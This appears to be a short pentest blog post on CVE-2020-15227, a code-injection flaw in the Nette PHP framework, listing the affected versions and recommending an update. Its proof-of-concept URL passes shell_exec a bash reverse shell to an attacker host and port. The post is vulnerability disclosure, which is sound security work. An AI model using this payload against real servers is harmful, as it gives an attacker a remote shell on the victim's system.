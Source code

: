 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Nette Framework: CVE-2020-15227"
date:   2020-10-16 00:15:00 +1000
categories:
  - Web Application Pentest
  - CVE
tags:
  - CVE-2020-15227
  - RCE
  - PHP
---
```


# Nette Framework:
Nette Framework is an open-source framework for creating web applications in PHP 5 and 7. It supports AJAX, DRY, KISS, MVC and code reusability. Original author of the framework is David Grudl, but further development is now maintained by the Nette Foundation organization. Nette is a free software released under both[2] the New BSD license and the GNU GPL version 2 or 3.

# Issue Description:
Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and nette/nette versions prior to 2.0.19 and 2.1.13 are vulnerable to an code injection attack by passing specially formed parameters to URL that may possibly leading to RCE.

Thanks to Cyku Hong

# Proof of Concept:
```
/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
```

# Impact:

Code injection, possible remote code execution.

# Recommendation:

Update Nette Framework to the latest version.
